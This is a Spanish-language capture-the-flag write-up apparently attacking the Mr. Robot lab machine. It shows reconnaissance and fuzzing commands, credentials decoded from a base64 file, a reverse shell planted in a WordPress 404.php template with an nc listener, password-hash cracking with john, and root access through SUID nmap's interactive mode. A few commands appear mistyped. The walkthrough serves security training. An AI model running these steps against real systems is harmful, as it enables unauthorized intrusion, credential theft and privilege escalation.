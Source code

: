 # Reconocimiento y Enumeracion:
1. Se comienza con un escaneo de toda la red para obtener los ip disponibles.
2. Enumeramos todos los puertos de la ip obtenida. (22,80,443)
3. Lanzamos una serie de scripts basicos de reconocimiento.
	- ping -c 1 [IP] 
		Segun el ttl obtenemos el sistema, [linux m 64]
	- nmap --script=http-enum [IP]
		robots.txt
		Al revisar el robots.txt encontramos dos nombres de archivos.
			fsociety.dict
			key-1-of-3.txt
	- whatweb [IP]
		Obtenemos informacion de la red y vemos que corre bajo un wordpress, esto nos servira para mas tarde.
	- wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://[IP]/FUZZ
		Obtenemos:
		/images
		/css
		/image
		/license
		/feed
		/video
		/wp-login ---
		Revisando los directorios vemos algo interesante 
		en /wp-login.php:
			Encontramos el login de administracion de wordpress.
		en /license:
			Al hacerle un curl a http://[IP]/license obtenemos un texto en base64 al decodificar el texto obtenemos:
				elliot:ER28-0652
		Tenemos un posible usuario y contraseña.
Analisis de Vulnerabilidades:
4. Ahora que tenemos credenciales y un login podemos probar entrar.
Explotacion de Vulnerabilidades:
5. Una vez en configuracion nos desplazamos a:
	- Appearance	
	 - Editor
	  - 404.php

	Luego aqui inyectamos nuestra reverse shell, en este caso utilizamos la reverse shell de monkeypentester.
		- Editamos la ip y ponemos la nuestra y el puerto 443
	Ahora nos ponemos en escucha:
		- rlwrap nc -nlvp 443
Ahora vamos al navegador y abrimos.
	http://[IP]/1234 para que de error y se active el fichero y obtenemos una shell 

Post-Explotacion:
6. Una vez dentro realizamos una tratamiento de la tty para mayor movilidad
	- script /dev/null -c /bin/bash
	- export TERM=xterm
	- export SHELL=/bin/bash
	
7. Procedemos a enumerar el sistema:
	- whoami
	Somos el usuario daemon, revisamos el directorio /home y entramos al directorio robot:
		- key-2-of-3.txt
		- password.raw-md5
	Vemos que tenemos un archivo de texto pero no podemos abrir la flag y al revisarlo obtenemos:
		robot:[hash]
8. Escalada de privilegios:
	- Tenemos el usuario robot y su hash md5, intentamos crackear la contraseña en caso de ser debil
	john --wordlist /usr/share/wordlist/rockyou.txt file.hash
	- Luego de un rato obtenemos las credenciales.
	 *robot:abcdefghijklmnopqrstuvwxyz
	- Entramos por ssh robot@[IP] -p "abcdefghijklmnopqrstuvwxyz"
	Nos damos cuenta de que con este usuario si podemos abrir la flag

	Revisamos los permisos que tenemos:
	- id
	- group
	- sudo -l
	- find / -perm 4000 2 m /dev/null

	- Lo que nos llama la atencion en este caso es que nmap tiene como propietario al usuario root y posee el permiso SUID
	- Revisamos GTFObins de nmap y vemos que existe un vulnerabilidad:
		nmap --interactive
		nmapm !sh
	Tratamos la tty y ya somos root.
	Listamos el directorio /root y encontramos la tercera flag
